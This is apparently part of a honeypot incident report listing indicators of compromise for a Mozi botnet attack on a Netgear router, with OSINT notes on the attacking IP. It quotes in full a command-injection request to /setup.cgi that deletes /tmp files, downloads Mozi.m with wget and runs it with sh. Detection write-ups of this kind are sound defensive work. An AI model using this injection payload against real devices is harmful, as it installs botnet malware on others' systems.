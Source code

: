 ### 2. **HTTP Request Patterns**
- Specific patterns in the HTTP request, especially the URI pattern used in the attack: `/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1`. The presence of such requests in web server logs can indicate an attempt to exploit the same or similar vulnerabilities.

### 3. **Malware URL and Filename**
- The URL `http://192.168.1.1:8088/Mozi.m` and the filename `Mozi.m` involved in the malicious HTTP request. Monitoring for attempts to access this URL or the presence of this filename can be indicative of compromise or attempted exploitation.

### 4. **Commands and Artifacts**
- Use of `wget` command to download files from suspicious URLs.
- Deletion of files from `/tmp/` directory (`rm -rf /tmp/*`).
- Execution of downloaded files (`sh /tmp/netgear`).
- Presence of unexpected files in the `/tmp/` directory or other unusual system changes matching the attack pattern.

### 5. **Network Traffic**
- Unusual outbound network traffic to `192.168.1.1:8088` or similar private IP ranges that would not typically be contacted by the compromised system, particularly on port 8088.
- Unexpected HTTP GET requests originating from the system that match the command injection pattern used in the attack.

### 6. **Malware Signatures**
- Although specific signatures were not detailed, the presence of malware associated with the `Mozi` botnet can serve as an IOC. Anti-virus or anti-malware tool alerts related to known variants of `Mozi` malware.

### 7. **Modified System Settings or Files**
- Unexplained changes to system or network configuration files that could have been altered as part of the attack or by the malware payload.

### Conclusion
By monitoring for these IOCs, security professionals can detect and potentially prevent attacks of this nature. It is also critical to regularly update IOCs as attackers adapt and modify their techniques. Implementing comprehensive security monitoring and incident response protocols is key in rapidly detecting and mitigating such attacks.

# What do you know about the attacker?
The analysis across various OSINT sources regarding the attack on the Linux honeypot provides the following critical findings:

### Attacker Information
- **Source IP Address**: 178.72.69.244
  - Identified as part of a network attributed to MTS PJSC in Russia.
  - Has a history of malicious online activity including scanning and potential involvement with crypto mining as indicated by GreyNoise, Pulsedive, and AbuseIPDB.
  - Last reported activities range up to 25 January 2024, emphasizing recent malicious behavior.
- **Destination IP Address**: 172.31.5.68 is a private/internal network address, serving as the attacked Linux honeypot.
  